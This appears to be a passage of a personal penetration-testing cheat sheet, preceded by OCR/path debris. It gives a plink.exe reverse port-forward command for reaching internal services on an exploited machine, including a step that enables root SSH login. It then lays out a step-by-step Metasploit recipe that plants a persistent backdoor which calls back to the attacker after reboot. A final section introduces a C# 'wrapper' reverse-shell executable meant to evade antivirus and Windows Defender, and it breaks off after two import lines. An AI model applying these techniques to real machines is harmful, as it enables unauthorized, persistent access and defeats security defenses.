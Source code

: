 if we have a service running internally in an exlploited machine then we need to port forward it our machine so we can exploit it

A tool called plink.exe is used for this purpose

1. We need to set permitrootlogin to yes in our /etc/ssh/sshd_config file

2. NOw run the ssh service using **service ssh start**

3. Now run the execeutbale and then you can access that port on your localhost

>.\plink.exe root@yourip -R internalport:127.0.0.1:porttoforwardto




## Backdoor


### USing metasploit

1. First create a msfvenom payload either a exe or dll 
2. Now get a shell back using that payload through multi/handler
3. After getting the session back,now background the msf shell by typing background
4. Then use exploit/windows/local/persistence and set the session number to your backgrounded shell session
5. What this will do is it will create a file on target which will autoamtically keep sending the connection back to our machine. Even after restart of target. The time by default is 10 seconds but we can change it . Now all we have to do is to start up a msf listener and we will receive a connection back after specied interval   
  
  NOTE: Remember to set the payload in multi handler same as which was used in creating the malicious exe or dll

 







 -------------------------------------------
 
   
# Wrapper reverse shell exeutable code (BYpass AV and windows defender)
  
  THis csharp code can be commpiled into exeutable using mono-devel compiler
  THis will make a execuatble which is a wrapper and will not be suspicious to AV and defenses. BUt internally it executes our malicuous code
  
  
  
  .......................
  
//IMporting basic modules which will help us start system processes
using System;  
using System.Diagnostics;

